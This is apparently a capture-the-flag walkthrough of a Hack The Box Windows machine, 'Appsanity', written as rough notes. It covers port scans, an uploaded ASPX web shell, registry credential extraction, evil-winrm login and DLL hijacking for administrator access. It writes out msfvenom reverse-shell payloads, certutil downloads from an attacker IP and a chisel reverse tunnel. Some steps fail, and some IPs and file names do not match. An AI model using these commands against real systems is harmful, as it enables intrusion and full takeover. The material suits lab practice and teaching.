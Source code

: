 only port 80 and 443 open
```
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
|_http-title: Did not follow redirect to https://meddigi.htb/
443/tcp open  https
```
Second nmap
```
80/tcp  open  http    Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://meddigi.htb/
|_http-server-header: Microsoft-IIS/10.0
443/tcp open  https?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp open  http    syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
```
`Open 10.10.11.238:7680` using rustscan
`portal.meddigi.htb`


```
We get a link like https://portal.meddigi.htb/ViewReport.aspx?file=eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf.


```

`https://portal.meddigi.htb/ViewReport.aspx?file=f7346a32-7dec-4656-ba6f-0451b0fe68c4_shell2.aspx`
## User
```
c:\Users\svc_exampanel\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of c:\Users\svc_exampanel\Desktop

10/18/2023  05:41 PM    <DIR>          .
10/18/2023  05:41 PM    <DIR>          ..
10/29/2023  10:37 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,635,908,608 bytes free

c:\Users\svc_exampanel\Desktop>type user.txt
type user.txt
5b98e5c6e4e1f59ca8c7d7563f70f0cc

c:\Users\svc_exampanel\Desktop>
```

## PrivEsc
I elevate my privilegies from shell to meterpreter using post exploitation
I ran `netsat` to see port open and i see port 100 running an application. i will forward it.
`    tcp    0.0.0.0:100         0.0.0.0:*         LISTEN       0     0      1728/ReportManagement.exe`
`portfwd add -l 10100 -p 100 -r 127.0.0.1` i forwarded it to the port 10100
```
└─# nc 127.0.0.1 10100
Reports Management administrative console. Type "help" to view available commands.
└─# nc 127.0.0.1 10100
Reports Management administrative console. Type "help" to view available commands.
help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
backup
Backup operation completed successfully.
```
I typed backup to perform a backup
Using dnspy reverse the binary DotNet file `C:\inetpub\ExaminationPanel\ExaminationPanel\bin\ExaminationManagement.dll` and find the path in the registry where the encryption key lies, then pull it out.
```
meterpreter > reg queryval -k HKLM\\Software\\MedDigi -v EncKey
Key: HKLM\Software\MedDigi
Name: EncKey
Type: REG_SZ
Data: 1g0tTh3R3m3dy!!
meterpreter > 
```
Now using evil-winrm to connect to the machine as devdoc:
```
└─# evil-winrm -i 10.10.11.238 -u devdoc -p '1g0tTh3R3m3dy!!'

Evil-WinRM shell v3.4


```

`C:\\Program Files\\ReportManagement\\Libraries`
```
PS /home/bloman> Enter-PSSession -ComputerName meddigi.htb -Credential devdoc -Authentication Negotiate
          
PowerShell credential request                     
Enter your credentials.
Password for user devdoc: ***************

[meddigi.htb]: PS C:\Users\devdoc\Documents> whoami
appsanity\devdoc
*Evil-WinRM* PS C:\> cd "C:\Program Files\ReportManagement\Libraries"

*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries>

```
```
gen  shell dll
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.47 lport=1332 -f dll > externalupload.dll

cd C:\Program Files\ReportManagement\Libraries
and upload here dll shell
certutil.exe -urlcache -f http://10.10.14.25/externalupload.dll externalupload.dll
upload here shell dll name externalupload.dll

and upload 
[meddigi.htb]: PS C:\Windows\Tasks> certutil.exe -urlcache -f http://10.10.16.47/main.exe chisel.exe
chisel.exe in C:\\Windows\Tasks\

--------
run chisel in kali 
chisel server --reverse --port 9005
and run chisel in windows

chisel_w.exe client 10.10.16.47:9005 R:100:127.0.0.1:100

run listner in kali nc -nvlp 9002

and run this in kali 
nc 127.0.0.1 100
after run nc 127.0.0.1 100
put this command 

upload externalupload.dll 
```
```
└─# nc 127.0.0.1 100         
Reports Management administrative console. Type "help" to view available commands.
upload externalupload.dll
Attempting to upload to external source.
upload externalupload.dll
Attempting to upload to external source.
upload externalupload.dll
Attempting to upload to external source.
upload externalupload.dll
Attempting to upload to external source.
```
Nothing work...:)
Generate exe.
` msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.47 LPORT=1337 -f exe > shell3.exe`
Now i will run it on background:
```

[meddigi.htb]: PS C:\Windows\Tasks> powershell -Command "Start-Process -FilePath 'shell.exe' -WindowStyle Hidden"
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.47:1337 
[*] Meterpreter session 2 opened (10.10.16.47:1337 -> 10.10.11.238:50824) at 2023-10-31 10:25:02 +0000

meterpreter > sysinfo 
[-] Error running command sysinfo: Rex::TimeoutError Operation timed out.
meterpreter > sysinfo 
Computer        : APPSANITY
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
```
Now port forward
```
meterpreter > portfwd add -l 1333 -p 100 -r 127.0.0.1
[*] Local TCP relay created: :1333 <-> 127.0.0.1:100
meterpreter > 
└─$ nc 127.0.0.1 1333                         
Reports Management administrative console. Type "help" to view available commands.
help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
backup
Backup operation completed successfully.
```
## Hijack the dll
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.47 LPORT=4246 -f dll -o externalupload.dll`
port forward again
```
└─# nc 127.0.0.1 1336
Reports Management administrative console. Type "help" to view available commands.
upload externalupload.dll
Attempting to upload to external source.
```
```

[*] 10.10.11.238 - Meterpreter session 4 closed.  Reason: Died
[*] Meterpreter session 5 opened (10.10.16.47:4246 -> 10.10.11.238:64230) at 2023-10-31 11:03:24 +0000

meterpreter > 
meterpreter > sysinfo 
Computer        : APPSANITY
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > whoami
[-] Unknown command: whoami
meterpreter > shell
Process 2476 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ReportManagement>whoami
whoami
appsanity\administrator

C:\Program Files\ReportManagement>
```
```
 Directory of C:\Users\Administrator\Desktop

10/23/2023  02:37 PM    <DIR>          .
10/23/2023  02:37 PM    <DIR>          ..
10/31/2023  03:47 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,939,172,352 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
d96661788911c0e44ab922ff8da9cc08
```